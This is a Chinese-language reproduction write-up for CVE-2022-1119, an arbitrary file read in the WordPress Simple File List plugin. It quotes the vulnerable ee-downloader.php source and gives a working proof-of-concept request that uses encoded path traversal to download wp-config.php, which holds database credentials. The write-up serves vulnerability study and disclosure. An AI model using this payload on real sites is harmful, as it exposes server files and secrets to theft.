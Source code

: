 # WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>WordPress Simple File List < 3.2.8</a-checkbox></br>

## 插件名

<a-checkbox checked>Simple File List</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![img](../../../.vuepress/public/img/1656833917266-d2d288f0-265a-426f-9096-b89b600be62a.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```php
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![img](../../../.vuepress/public/img/1656833959273-cb7b870d-acb3-4804-88c2-ca3531195dc7.png)
